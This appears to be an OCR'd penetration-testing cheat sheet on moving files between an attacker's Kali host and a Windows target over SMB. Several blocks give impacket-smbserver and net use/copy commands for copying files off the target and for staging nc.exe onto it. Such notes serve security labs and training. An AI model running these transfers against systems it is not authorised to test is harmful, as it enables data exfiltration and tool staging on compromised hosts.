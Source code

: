 # SMB

```
# Kali side
impacket-smbserver share . -smb2support -username USER -password PASS
```

```
# Windows side
net use Y: \\KALI_IP\share /user:USER PASS
# After established connection
# Transfer from windows to Kali
copy FILE Y:\
# Transfer from kali to windows
copy Y:\File .\
```






Serve:
```
python /usr/share/doc/python-impacket/examples/smbserver.py share-name root-dir
```



On the target, you can view the available shares on the SMB server with net view `\\ip-addr`.
To view the files available in the share, simply use dir `\\ip-addr\share-name`


To actually download a file, use `copy \\ip-addr\share-name\file out-file`













You can launch an SMB share on your Kali machine with impacket
```
impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support -username User -password [PASS]

impacket-smbserver [SHARE NAME] /usr/share/windows-binaries/

impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support
```






#### Example 1
```
# start a share in kali
impacket-smbserver myShare . -smb2support -username stephanie -password 'P@ssword!'

# Then mount this share on the windows machine with:
net use X: \\[IP]\[SHARE NAME]
net use m: \\[IP]\[SHARE NAME] /user:[USERNAME] [PASSWORD]
net use m: \\Kali_IP\test /user:kourosh kourosh

# to delete share
net use X: /delete

```

After that it's really easy because you can just copy/paste things from the windiws target and have it on your Kali.




#### Example 2 (may not work)
```
impacket-smbserver share /home/[USERNAME]/Desktop -smb2support


# On target machine open File Explorer an in the searchbar put:
\\[ATTACKER IP]


```












### Windows to Kali

```powershell
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```











#############################

## SMB Server
-> Setting
```
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```